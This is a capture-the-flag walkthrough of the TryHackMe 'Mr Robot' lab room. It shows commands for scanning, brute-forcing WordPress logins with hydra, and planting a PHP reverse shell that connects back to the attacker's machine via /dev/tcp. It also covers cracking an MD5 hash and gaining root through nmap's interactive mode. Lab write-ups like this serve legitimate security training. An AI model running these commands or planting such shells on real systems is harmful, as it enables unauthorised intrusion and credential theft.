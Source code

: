 # Mr Robot CTF

**Room Link:** [https://tryhackme.com/room/mrrobot](https://tryhackme.com/room/mrrobot)





## Scanning

**Kali**

```
nmap -A $VICTIM
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (5).png" alt=""><figcaption></figcaption></figure>

### Scan all ports

No other ports found.

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (10) (6).png" alt=""><figcaption></figcaption></figure>

### HTTP port 80

This ran for the majority of the time I was working on the box, I found the wordpress and checked robots.txt manually and the scan didn't really find anything of interest.

**Kali**

```
dirb http://$VICTIM:80 /usr/share/wordlists/dirb/big.txt
```

<figure><img src="../../.gitbook/assets/image (16) (2).png" alt=""><figcaption></figcaption></figure>

#### Key 1

<figure><img src="../../.gitbook/assets/image (7) (3).png" alt=""><figcaption></figcaption></figure>

**Downloaded fsocity.dic**

<figure><img src="../../.gitbook/assets/image (20) (1) (4).png" alt=""><figcaption></figcaption></figure>

If you refresh the page you'll go to a wordpress site.

<figure><img src="../../.gitbook/assets/image (27) (5) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (3) (6).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (24) (6).png" alt=""><figcaption></figcaption></figure>

Test to see what users exist in wordpress, if the user doesn't exist it will give an error saying the user is invalid.

<figure><img src="../../.gitbook/assets/image (26) (5) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
hydra -L fsocity.dic -p test  $VICTIM http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10
.10.70.148%2Fwp-admin%2F&testcookie=1:Invalid username" -V -t 30    
```

<figure><img src="../../.gitbook/assets/image (9) (3) (5).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (18) (2) (2).png" alt=""><figcaption></figcaption></figure>

Because there were so many entries in fsocity.dic I tried to reduce it as much as I could by removing duplicates and passwords that I thought would be unlikely.

**Kali**

```
cat fsocity.dic | sort | uniq > new-fsocity.dic
#Remove lines with less than 4 characters
sed -r '/^.{,4}$/d' new-fsocity.dic > new-new-fsocity.dic
#Remove lines with just numbers
awk '! /^[0-9]+$/' new-new-fsocity.dic > nonums.dic 
#Remove lines with more than 11 characters
sed '/^.\{11\}./d' nonums.dic > final.txt
```



**Kali**

```
hydra -L Elliot -P fsocity.dic  $VICTIM http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F
10.10.70.148%2Fwp-admin%2F&testcookie=1:is incorrect." -V -t 30 
```

<figure><img src="../../.gitbook/assets/image (13) (8).png" alt=""><figcaption></figcaption></figure>

## Reverse Shell

### Reverse Shell Failed Attempt

**revshell.php code**

```
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/$KALI/443 0>&1'");
?>
```

**Kali**

```
vi revshell.php
zip revshell.zip revshell.php
nc -lvnp 443
```



<figure><img src="../../.gitbook/assets/image (6) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (25) (1) (3).png" alt=""><figcaption></figcaption></figure>

Connection is made but it isn't stable.

<figure><img src="../../.gitbook/assets/image (5) (11).png" alt=""><figcaption></figcaption></figure>



### Reverse Shell&#x20;

wpscan found out that twentyfifeen is installed.

**Kali**

```
wpscan --url http://$VICTIM
```

<figure><img src="../../.gitbook/assets/image (11) (1) (5).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
nc -vlnp 443
```

Added the same shell to footer.php which should appear on every page visited. Then I just went back to http://$VICTIM/join and it worked.

<figure><img src="../../.gitbook/assets/image (2) (1) (7) (1).png" alt=""><figcaption></figcaption></figure>



Get autocomplete

**Victim**

```
python -c 'import pty; pty.spawn("/bin/bash")'
ctrl + Z
stty raw -echo;fg
```



**Victim**

```
cd /home/robot
ls
cat password.raw-md5 
```

<figure><img src="../../.gitbook/assets/image (15) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
hashcat -m 0 password.raw-md5 /usr/share/wordlists/rockyou.txt
hashcat -m 0 password.raw-md5 /usr/share/wordlists/rockyou.txt --show
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (6).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
su robot
Password: abcdefghijklmnopqrstuvwxyz
```

<figure><img src="../../.gitbook/assets/image (10) (1) (8).png" alt=""><figcaption></figcaption></figure>

### LinPeas

**Kali**

```
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
python2 -m SimpleHTTPServer 81
```

**Victim**

```
cd /tmp/
wget http://$KALI:81/linpeas.sh
chmod +x linpeas.sh 
./linpeas.sh
```

<figure><img src="../../.gitbook/assets/image (37) (3) (1).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

**Victim**

```
/usr/local/bin/nmap --interactive
nmap> !sh
```

<figure><img src="../../.gitbook/assets/image (9) (8).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (25) (5) (1).png" alt=""><figcaption></figcaption></figure>
